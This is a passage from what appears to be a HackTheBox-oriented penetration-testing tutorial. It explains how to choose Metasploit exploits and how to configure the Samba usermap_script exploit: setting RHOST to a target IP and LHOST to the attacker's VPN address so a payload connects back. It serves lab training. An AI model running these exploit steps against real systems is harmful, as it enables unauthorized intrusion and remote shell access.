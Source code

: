 **So, how do I chose the right exploit?**

Choosing the right exploit can be hard or easy - sometimes your searches will display a ton of results, sometimes none. The approach to sort through many results are based on two parameters, assuming you've searched for only exploits - namely RANK and DISCLOSURE DATE. We want to try the exploits that are newest, and that ranks highest \(excellent being the highest\). Sometimes you'll end up trying them all and none will work - enumerate more!

**Modifying the exploits**

So you've searched and found an exploit - but we're not ready yet. First we need to select our exploit, like so:

```text
msf> use exploit/multi/samba/usermap_script
```

With the exploit selected we can modify it, like so:

```text
msf  (exploit/multi/samba/usermap_script) > show options
```

This will display something like this:

![Example of the options in a payload](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFWUjrWK-mc9zb5bbso%2F-LFgdoqNXAT6sDzPzLek%2F-LFgikUbRDXn6qLJtIBi%2Fe5f4c786-4709-4d66-bb9f-e605f788bc37.png?alt=media&token=37b6319f-61c7-49dd-8ea5-50aa830fe79d)

Name is the parameters that can be set, current settings will show you what they're currently set to and required shows you what needs to be set. Usually these exploits show up with the right port, but sometimes those have to be modified. Look at the enumeration you did - if the webserver is on port 5000, then your exploit targeting the webserver needs to be on port 5000.

In the example above RPORT is set correctly to 139, but we need to set the RHOST ourselves. This is our target, so we supply the IP of the target:

```text
msf exploit(usermap_script) > set rhost 10.10.10.3 
```

We also need to tell MSF some more stuff - what payload to use, what port to listen on and what IP-address it should connect back to. This is the same as the example used above. The MSF-module exploit will deliver the payload, but you need to supply it with the listener IP and PORT. To set this, do the following:

```text
msf exploit(usermap_script) > set LHOST 10.10.14.18 
lhost => 10.10.14.18
```

We can also use tun0 for our LHOST \(this is the VPN-adapter connected to HackTheBox in this case\):

```text
msf exploit(usermap_script) > set LHOST tun0
lhost => tun0
```

Then we need to tell it what port to listen on. An important point here is that we should try to use a port that isn't already in use to avoid problems. 4444 is such a port:
